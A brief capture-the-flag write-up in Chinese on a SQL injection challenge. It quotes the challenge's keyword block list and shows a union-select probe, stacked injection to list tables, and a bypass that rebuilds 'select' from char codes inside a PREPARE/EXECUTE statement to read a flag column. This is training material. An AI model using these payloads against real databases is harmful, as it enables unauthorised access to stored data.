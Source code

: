 ![image-20210824222436270](images\image-20210824222436270.png)

当尝试使用1' union select 1,2,3 时，页面提示了过滤规则：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

使用堆叠注入：

发现了两个表：words 和 1919810931114514

![img](images\1417438-20190828203247445-874600076.jpg)

查看表结构，可以发现1919810931114514表中存在flag字段。

通过预编译绕过过滤规则：

```sql
SET @sql = concat(char(115,101,108,101,99,116), " * from `1919810931114514`");
PREPARE yuchuli from @sql;
EXECUTE yuchuli;
```

